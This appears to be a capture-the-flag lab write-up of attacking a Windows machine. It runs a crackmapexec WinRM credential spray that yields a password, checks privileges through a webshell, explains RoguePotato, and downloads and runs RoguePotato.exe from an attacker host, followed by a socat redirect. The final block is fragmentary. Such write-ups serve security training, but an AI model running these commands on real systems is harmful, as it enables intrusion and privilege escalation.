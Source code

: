 ```bash
┌──(pwn㉿kali)-[~]
└─$ sed 's/ = /:/g' worker.list
┌──(pwn㉿kali)-[~]
└─$ awk -F':' '{print $1 > "usernames_.txt"; print $2 > "passwords_.txt"}' worker.list 

```

```bash
┌──(pwn㉿kali)-[~]
└─$ crackmapexec winrm 10.10.10.203 -u usernames_.txt -p passwords_.txt --no-bruteforce --continue-on-success

WINRM       10.10.10.203    5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)



```

## user-exploitation

![[Pasted image 20250209105642.png]]

```bash

in the webshellL
PS W:\svnrepos\www\conf> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
-`SeImpersonatePrivilege        Impersonate a client after authentication Enabled `

### **Rogue Potato **

`RoguePotato` is a **Windows privilege escalation exploit** that abuses the SeImpersonatePrivilege by manipulating **DCOM activation** and the **NT AUTHORITY\SYSTEM token**.

#### **How Does Rogue Potato Work?**

1. The exploit **tricks the Windows RPC service** into making an NTLM authentication request to a **rogue COM server** controlled by the attacker.
2. The attacker captures this NTLM authentication and relays it to **another privileged service** that accepts authentication via NTLM.
3. This results in obtaining a **SYSTEM-level token**, which can be used to spawn a SYSTEM shell.
```bash
PS C:\windows\temp> wget http://10.10.14.15:80/RoguePotato.exe -o RoguePotato.exe
PS C:\windows\temp> dir
PS C:\windows\temp> .\RoguePotato.exe
ERROR
Socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
??
		
```
